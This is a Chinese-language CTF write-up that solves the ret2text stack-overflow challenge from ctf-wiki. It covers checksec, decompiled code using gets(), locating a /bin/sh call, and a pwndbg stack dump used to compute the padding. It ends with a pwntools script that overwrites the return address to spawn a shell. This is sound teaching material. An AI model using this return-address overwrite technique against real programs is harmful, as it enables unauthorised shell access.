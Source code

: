 ```yaml
---
title: Pwn 栈溢出
create: 2024-02-08T12:08:10Z
labels: ["ctf"]
comments: 0
---
```


## 栈溢出题目
### ret2text
[下载地址](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text)  
拿到程序首先使用 checksec 检查这个程序的一些信息，运行 `checksec ret2text` 我们会得到如下信息：

```bash
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
可以看出这个程序是 32 位程序，仅开了栈不可执行保护

接着使用 32 位 IDA Pro 打开程序：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets(s);
  printf("Maybe I will tell you next time !");
  return 0;
}
```
可以看到 `gets` 函数绝对会导致栈溢出的问题，接着我们查看一下这个程序里面的字符串，使用 `Shift + F12` 即可进入 String 窗口，在 Strings 窗口我们能看到：

`.rodata:08048763	00000008	C	/bin/sh`

这样一条数据，双击，看到这个字段前面的标识符为 `command`，用 `Alt + T` 搜索得到 `secure` 这个函数中包含 `/bin/sh` ，双击查看这个字符位置：

`.text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"`

可以看到其位置为 0804863A，我们在栈溢出的时候返回这个位置就行

接着用 pwndbg 来运行这个程序

`gdb ret2text`

在调试界面先为 main 函数打上断点：`b main`，接着使用 `r` 命令来执行程序，程序会在 main 函数的位置停止，接着我们使用 `n` 一步步往下执行，直到我们可以输入，随便输入数据，用 stack 40 来查看栈内存放的数据：

```bash
00:0000│ esp 0xffffd370 —▸ 0xffffd38c ◂— 'AAAA'
01:0004│-084 0xffffd374 ◂— 0x0
02:0008│-080 0xffffd378 ◂— 0x1
03:000c│-07c 0xffffd37c ◂— 0x0
04:0010│-078 0xffffd380 —▸ 0xf7fc4540 (__kernel_vsyscall) ◂— push ecx
05:0014│-074 0xffffd384 ◂— 0xffffffff
06:0018│-070 0xffffd388 —▸ 0x8048034 ◂— push es
07:001c│ eax 0xffffd38c ◂— 'AAAA'
08:0020│-068 0xffffd390 —▸ 0xf7ffd600 (_rtld_global+1504) ◂— 0x3
09:0024│-064 0xffffd394 ◂— 0x20 /* ' ' */
0a:0028│-060 0xffffd398 ◂— 0x0
0b:002c│-05c 0xffffd39c —▸ 0xffffd554 ◂— 0x20 /* ' ' */
0c:0030│-058 0xffffd3a0 ◂— 0x0
0d:0034│-054 0xffffd3a4 ◂— 0x0
0e:0038│-050 0xffffd3a8 ◂— 0x1000000
0f:003c│-04c 0xffffd3ac ◂— 9 /* '\t' */
10:0040│-048 0xffffd3b0 —▸ 0xf7fc4540 (__kernel_vsyscall) ◂— push ecx
11:0044│-044 0xffffd3b4 ◂— 0x0
12:0048│-040 0xffffd3b8 —▸ 0xf7c184be ◂— '_dl_audit_preinit'
13:004c│-03c 0xffffd3bc —▸ 0xf7e2a054 (_dl_audit_preinit@got.plt) —▸ 0xf7fdde10 (_dl_audit_preinit) ◂— endbr32
14:0050│-038 0xffffd3c0 —▸ 0xf7fbe4a0 —▸ 0xf7c00000 ◂— 0x464c457f
15:0054│-034 0xffffd3c4 —▸ 0xf7fd6f90 (_dl_fixup+240) ◂— mov edi, eax
16:0058│-030 0xffffd3c8 —▸ 0xf7c184be ◂— '_dl_audit_preinit'
17:005c│-02c 0xffffd3cc —▸ 0xf7fbe4a0 —▸ 0xf7c00000 ◂— 0x464c457f
18:0060│-028 0xffffd3d0 —▸ 0xffffd410 —▸ 0xf7e2a000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
19:0064│-024 0xffffd3d4 —▸ 0xf7fbe66c —▸ 0xf7ffdba0 —▸ 0xf7fbe780 —▸ 0xf7ffda40 ◂— ...
1a:0068│-020 0xffffd3d8 —▸ 0xf7fbeb10 —▸ 0xf7c1acc6 ◂— 'GLIBC_PRIVATE'
1b:006c│-01c 0xffffd3dc ◂— 0x1
1c:0070│-018 0xffffd3e0 ◂— 0x1
1d:0074│-014 0xffffd3e4 ◂— 0x0
1e:0078│-010 0xffffd3e8 —▸ 0xf7e2a000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
1f:007c│-00c 0xffffd3ec —▸ 0xf7d20f9b (__init_misc+43) ◂— add esp, 0x10
20:0080│-008 0xffffd3f0 —▸ 0xffffd627 ◂— '/home/ttdly/pwn/ret2text/ret2text'
21:0084│-004 0xffffd3f4 ◂— 0x70 /* 'p' */
22:0088│ ebp 0xffffd3f8 —▸ 0xf7ffd020 (_rtld_global) —▸ 0xf7ffda40 ◂— 0x0
23:008c│+004 0xffffd3fc —▸ 0xf7c21519 (__libc_start_call_main+121) ◂— add esp, 0x10
24:0090│+008 0xffffd400 ◂— 0x1
25:0094│+00c 0xffffd404 —▸ 0xffffd4b4 —▸ 0xffffd627 ◂— '/home/ttdly/pwn/ret2text/ret2text'
26:0098│+010 0xffffd408 —▸ 0xffffd4bc —▸ 0xffffd649 ◂— 'SHELL=/bin/bash'
27:009c│+014 0xffffd40c —▸ 0xffffd420 —▸ 0xf7e2a000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
```
可以看到我们输入的字符存放在 `0xffffd38c` 这个地址，而 ebp 在 `0xffffd3f8` 的位置，这时我们需要向栈内填充 `0x3f8 - 0x38c = 0x6c` 个字符，如果想要覆盖调用 main 函数地址位置，我们还需要额外填充 4 个字节，所以最终向栈内写入的字符数为 `0x6c+4`

大概流程我们已经知道了，接着我们来编写攻击脚本：
```python
from pwn import *

local = process("./ret2text");
target = 0x0804863A # system("/bin/sh") 的位置
payload = b"A" * (0x6c + 4) + p32(target);
local.send(payload);
local.interactive();
```
使用 python 运行这个脚本之后，我们可以看到终端已经进入了本机的 shell 界面，攻击成功。这个时候我们可以通过 shell 来得到我们的 flag。